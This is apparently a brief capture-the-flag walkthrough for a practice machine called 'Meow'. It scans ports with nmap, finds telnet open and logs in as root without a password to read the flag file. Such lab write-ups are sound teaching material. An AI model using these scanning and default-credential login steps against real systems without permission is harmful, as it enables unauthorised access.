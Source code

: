 1. Scan all the ports and determine service and version of open ports
```bash
nmap -sV [ip machine]
```
--> port 23/tcp - open - Telnet


2. Connect to the machine via "telnet"
```bash
telnet [ip machine]
	Meow login: root
```
--> **MACHINE PWNED!** 


3. Capture the flag
```bash
cat flag.txt
```

